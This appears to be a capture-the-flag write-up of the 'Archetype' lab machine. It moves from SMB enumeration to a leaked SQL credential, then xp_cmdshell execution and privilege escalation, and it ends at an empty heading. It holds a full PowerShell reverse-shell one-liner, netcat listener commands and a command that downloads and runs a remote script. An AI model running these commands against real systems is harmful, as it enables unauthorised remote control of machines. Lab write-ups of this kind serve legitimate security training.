 ## Recon/Enumeration  
nmap -A 10..10.10.27  
![alt text](./img/archetype01.png?raw=true)  
Port 139 and 445 are open, so SMB is active. Let's try to connect ir with guest creds 
![alt text](./img/archetype02.png?raw=true)  
The folders needed a credential to access, however the backups folder didn't...
![alt text](./img/archetype03.png?raw=true)  

Let’s get this file and read it  
![alt text](./img/archetype04.png?raw=true)  

Found a credential:
- User = ARCHETYPE\sql_svc
- Password = M3g4c0rp123

## Exploit

DTConfiguration is part of a SQL Server configuration. So let’s try to connect to it  
![alt text](./img/archetype05.png?raw=true)

We found some tables with the command: “select * from information_schema.tables”. However there is nothing useful inside. So let’s see if we can execute commands here.  
Doing a research we can find something about xp_cmdshell.  
![alt text](./img/archetype06.png?raw=true)

Wow, let’s try to obtain more info about the system (if need to activate xp_cmdshell try this [link](https://stackoverflow.com/questions/5131491/enable-xp-cmdshell-sql-server))  
![alt text](./img/archetype07.png?raw=true)

Now let’s create as reverse shell ps1 file:

> $client = New-Object System.Net.Sockets.TCPClient("10.10.14.7",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1|Out-String);$sendback2=$sendback+"# ";$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

After create the file set an http server and a listener:

sudo python3 -m http.server 80  
nc -nvlp 4444  

On the compromised machine run the command:  
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.7/shell.ps1\")"

A shell must appear in the nc listening port.

## Privesc  
Since we are running Powershell, let’s see the command history executed in it  
![alt text](./img/archetype08.png?raw=true)  

Ok, another credential. Let’s try to use it with smbclient  
![alt text](./img/archetype09.png?raw=true)

## Discovery

